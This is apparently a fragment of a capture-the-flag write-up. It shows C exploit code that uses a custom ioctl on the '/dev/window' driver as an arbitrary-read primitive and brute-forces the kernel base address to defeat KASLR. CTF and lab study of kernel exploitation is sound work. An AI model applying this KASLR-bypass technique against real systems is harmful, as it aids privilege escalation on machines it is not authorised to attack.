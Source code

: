 ```c
        ioctl(fd, 0x1337, leak);
        return leak[1];
}

int main() {
        unsigned long kbase = 0;
        fd = open("/dev/window", O_RDWR);
        if (fd == -1)
                perror("error: unable to open /dev/window");

        // we start from the smallest possible kaslr address
        kbase = 0xffffffff80000000;

        while (1) {
                unsigned long ret = aar(kbase);
                printf("[-] trying 0x%lx... got 0x%lx\n", kbase, ret);
                if (ret != 0) {
                        break;
                }
                kbase += 0x100000;
        }

        printf("[*] kbase at 0x%lx\n", kbase);
        close(fd);
}
```

![](attachments/window-of-opportunity-1.jpg)
